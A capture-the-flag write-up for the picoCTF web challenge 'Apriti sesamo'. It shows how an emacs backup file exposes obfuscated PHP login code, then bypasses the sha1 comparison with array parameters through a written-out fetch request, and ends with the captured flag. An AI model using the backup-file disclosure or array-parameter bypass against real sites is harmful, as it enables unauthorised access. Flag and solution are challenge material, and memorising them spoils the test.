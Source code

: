 ## Apriti sesamo

I think this is my favourite challenge so far, except for the fact that it's pretty hard to get started without the hint.

The webpage is a simple username and password box, along with a large ASCII message saying "log in if you can". Entering any incorrect credentials returns a message saying "Failed! No flag for you".

The two hints are "Backup files" and "Rumor has it, the lead developer is a militant emacs user". Considered together, it's clear these two hints are referring to how emacs creates backup files with a `~` at the end of the filename.

Changing the URL from `http://verbal-sleep.picoctf.net:58281/impossibleLogin.php` to `http://verbal-sleep.picoctf.net:58281/impossibleLogin.php~` reveals an old version of the webpage, with some of the password-checking logic visible in the source code:

```html
<!--?php
if(isset($_POST[base64_decode("\144\130\x4e\154\x63\155\x35\x68\142\127\125\x3d")])&& isset($_POST[base64_decode("\143\x48\x64\x6b")])){$yuf85e0677=$_POST[base64_decode("\144\x58\x4e\154\x63\x6d\65\150\x62\127\x55\75")];$rs35c246d5=$_POST[base64_decode("\143\x48\144\153")];if($yuf85e0677==$rs35c246d5){echo base64_decode("\x50\x47\112\x79\x4c\172\x35\x47\x59\127\154\163\132\127\x51\x68\111\x45\x35\166\x49\x47\132\163\131\127\x63\x67\x5a\155\71\171\111\x48\x6c\166\x64\x51\x3d\x3d");}else{if(sha1($yuf85e0677)===sha1($rs35c246d5)){echo file_get_contents(base64_decode("\x4c\151\64\166\x5a\x6d\x78\x68\x5a\x79\65\60\145\110\x51\75"));}else{echo base64_decode("\x50\107\112\171\x4c\x7a\65\107\x59\x57\154\x73\x5a\127\x51\x68\x49\105\x35\x76\111\x47\132\x73\131\127\x63\x67\x5a\155\71\x79\x49\110\154\x76\x64\x51\x3d\75");}}}?-->
```

I uncommented the PHP code, formatted it, and decoded the base64 strings for better readability:

```php
<?php
    if (isset($_POST[username]) && 
        isset($_POST[pwd])) {
        
        $yuf85e0677 = $_POST[username];
        $rs35c246d5 = $_POST[pwd];
        
        if ($yuf85e0677 == $rs35c246d5) {
            echo "<br/>Failed! No flag for you";
        } else {
            if (sha1($yuf85e0677) === sha1($rs35c246d5)) {
                echo file_get_contents(../flag.axt);
            } else {
                echo "<br/>Failed! No flag for you";
            }
        }
    }
?>
```

The code is pretty simple: if the username and password are the same, it returns "Failed! No flag for you". However, if the username and password are different, but the SHA1 hashes of the two are equal, it reads the contents of `../flag.axt` and returns it.

At first, I tried to find a collision for the SHA1 hash - about 8 years ago, someone found a [SHA1 collision](https://shattered.io/) that allowed them to create two different PDFs with the same SHA1 hash. However, due to the very small number of SHA1 collisions having been discovered, I realized that this probably wasn't the intended solution (and didn't feel like figuring out how to submit a PDF as a password).

After a bit of trial and error, I figured out that the actual vulnerability was type casting. Since pressing Login calls a POST request, I was able to test various inputs using the browser's developer tools. PHP's `sha1` function is only designed to work on strings, and it returns `NULL` if it's given an invalid input. By simply changing the body of the POST request from `username=abc&pwd=xyz` to `username[]=abc&pwd[]=xyz`, we are able to change the types of the inputs - the arrays are not equal, but their hashes are (`NULL === NULL`).

By checking the network tab in the developer tools when I clicked the Login button, I was able to copy the fetch request that was being made, and replace the body with my new input:

```js
fetch("http://verbal-sleep.picoctf.net:58281/impossibleLogin.php", {
  "headers": {
    "accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7",
    "accept-language": "en-CA,en-GB;q=0.9,en-US;q=0.8,en;q=0.7",
    "cache-control": "max-age=0",
    "content-type": "application/x-www-form-urlencoded",
    "upgrade-insecure-requests": "1",
    "Referer": "http://verbal-sleep.picoctf.net:58281/impossibleLogin.php",
    "Referrer-Policy": "strict-origin-when-cross-origin"
  },
  "body": "username[]=abc&pwd[]=xyz",
  "method": "POST"
}).then(response => response.text())
.then(data => {
  console.log(data);
})
.catch(error => {
  console.error("Error:", error);
});
```

```html
picoCTF{w3Ll_d3sErV3d_Ch4mp_5292ca30}
```